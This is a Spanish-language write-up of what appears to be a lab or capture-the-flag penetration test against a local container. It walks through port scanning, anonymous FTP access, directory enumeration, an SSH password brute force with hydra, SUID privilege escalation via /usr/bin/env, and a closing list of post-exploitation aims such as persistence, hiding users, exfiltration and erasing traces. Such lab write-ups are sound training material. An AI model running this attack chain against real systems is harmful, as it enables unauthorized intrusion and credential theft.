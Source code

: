 # Informe de Evaluación de Seguridad – Escenario de Pentesting

## 1. Comprobación de Conectividad

```bash
ping 172.17.0.2
```

---

## 2. Escaneo de Puertos Abiertos

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

✅ **Puertos abiertos detectados:**
- **21** (FTP)
- **22** (SSH)
- **80** (HTTP)

---

## 3. Detección de Versiones de Servicios

```bash
nmap -p21,22,80 -sCV 172.17.0.2
```

**Resultados:**

| Puerto | Servicio | Versión |
|--------|----------|---------|
| 21/tcp | FTP      | vsftpd 3.0.5 |
| 22/tcp | SSH      | OpenSSH 8.9p1 (Ubuntu) |
| 80/tcp | HTTP     | Apache httpd 2.4.52 (Ubuntu) |

---

## 4. Acceso al Servicio FTP (Modo Anónimo)

```bash
ftp 172.17.0.2
```

📥 **Acceso concedido (anónimo):** `230 Login successful`

**Archivos encontrados:**
```
-rw-r--r--    1 0 0   667 Jun 18 2024 chat-gonza.txt
-rw-r--r--    1 0 0   315 Jun 18 2024 pendientes.txt
```

📄 **Contenido útil de `pendientes.txt`:**

> "Cambiar algunas configuraciones de mi equipo, creo que tengo ciertos permisos habilitados que no son del todo seguros..."

---

## 5. Análisis de Directorios con HTTP

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt
```

**Parámetros utilizados:**

| Parámetro | Explicación |
|----------|-------------|
| `gobuster` | Herramienta de fuerza bruta para descubrir rutas ocultas |
| `dir`     | Modo de búsqueda de directorios |
| `-u`      | URL del objetivo |
| `-w`      | Ruta al diccionario de palabras |

📂 **Rutas encontradas:**

```
/.hta              (403)
/.htpasswd         (403)
/.htaccess         (403)
/backup            (301) → http://172.17.0.2/backup/
/important         (301) → http://172.17.0.2/important/
/index.html        (200)
/server-status     (403)
```

📄 **Contenido destacado:**
- En `important.md`: un manifiesto (contenido no detallado).
- En `backup.txt`:  
  > **Usuario común en servicios:** `russoski`  
  > _(¡Se recomienda cambiar pronto!)_

---

## 6. Ataque de Fuerza Bruta a SSH

**Intentos iniciales fallidos** con clave vacía.  
Se procede con ataque por diccionario:

```bash
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

**Parámetros:**

| Parámetro | Explicación |
|----------|-------------|
| `-l russoski` | Usuario objetivo |
| `-P rockyou.txt` | Lista de contraseñas |
| `ssh://` | Protocolo y dirección objetivo |

🔓 **Contraseña descubierta:** `iloveme`

---

## 7. Acceso por SSH

```bash
ssh russoski@172.17.0.2
```

✅ Acceso exitoso con credenciales encontradas.

---

## 8. Búsqueda de Archivos con Permisos Especiales (SUID)

```bash
find / -perm -4000 -type f 2>/dev/null
```

📍 Archivo interesante encontrado:

```
/usr/bin/env
```

---

## 9. Escalada de Privilegios a root

```bash
/usr/bin/env /bin/sh -p
```

🛡️ **Shell con privilegios de root obtenida.**

---

## 10. Post-Explotación

📌 Acciones posibles tras obtener acceso como **root**:

- ✅ Establecer persistencia
- 👤 Crear usuario oculto
- 🔐 Añadir clave pública SSH
- 📦 Exfiltrar información sensible
- 🌐 Explorar red interna
- 🔀 Pivoting hacia otras máquinas
- 🧹 Eliminar huellas
- 💣 Destruir el sistema (⚠️ no recomendado)
